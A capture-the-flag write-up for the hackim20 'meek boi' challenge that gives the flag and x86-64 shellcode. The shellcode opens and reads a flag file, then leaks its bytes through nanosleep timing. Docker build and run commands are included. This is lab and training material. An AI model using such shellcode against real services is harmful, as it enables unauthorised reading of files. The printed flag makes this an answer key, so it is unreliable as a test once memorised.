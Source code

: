 #### meek boi

##### Description

I don't talk, but I can be submissive

##### Points

150/200

##### Flag

hackim20{i_just_slept_all_the_way_with_you}

##### Solution

Use a shellcode like this to do a time based attack
```
push rbp
mov rbp, rsp
sub rsp, 0x100
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax
mov rdi, rsp
xor edx, edx
xor esi, esi
mov rax, 2
syscall
xor eax, eax
mov rdi, 3
mov rdx, 9
inc edx
mov rsi, rsp
syscall
mov dil, byte ptr[rsp]
push 0
push rdi
mov rsi, rsp
mov rdi, rsp
mov rax, 0x23 
syscall
pop rax
pop rax
pop rax
leave
```

##### Build
```shell
docker build -t meek_boi .
```
##### Run:
```shell
docker run -p 5002:5002 meek_boi:latest
```

Notes:
Port is changeable. Change it in run command.
Change the flag to match the flag format.
